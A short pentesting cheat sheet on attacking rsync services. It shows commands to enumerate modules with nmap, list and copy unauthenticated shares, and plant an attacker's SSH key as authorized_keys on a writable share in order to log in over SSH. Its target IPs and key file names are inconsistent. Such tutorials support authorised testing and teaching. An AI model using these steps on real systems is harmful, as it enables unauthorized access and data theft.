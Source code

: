 # Enumeration 

## Enumeration of shared folders

* An rsync module is essentially a directory share. These modules can optionally be protected by a password. This options lists the available modules and, optionally, determines if the module requires a password to access:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
```

Manual Rsync

* Once you have the list of modules you have a few different options depending on the actions you want to take and whether or not authentication is required. If authentication is not required you can list a shared folder:
```bash
rsync -av --list-only rsync://192.168.0.123/shared_name
```

* And copy all files to your local machine via the following command:
```bash
rsync -av rsync://192.168.0.123:873/shared_name ./rsyn_shared
```

If you can write to the shares follow the next commands

#
```
#Create a ssh key
ssh-keygen -f id_rsa
```

```
#create .ssh folder in teh rsyn_shared you downloaded
mkdir .ssh

#copy the public to the authorized_keys ( you have to create that file)
cp id_rsa.pub .ssh/authorized_keys


#transfer .ssh to target
rsync -r ./.ssh 192.168.122.126::fox/

#then ssh into user
ssh -i newkey fox@192.168.85.126
```




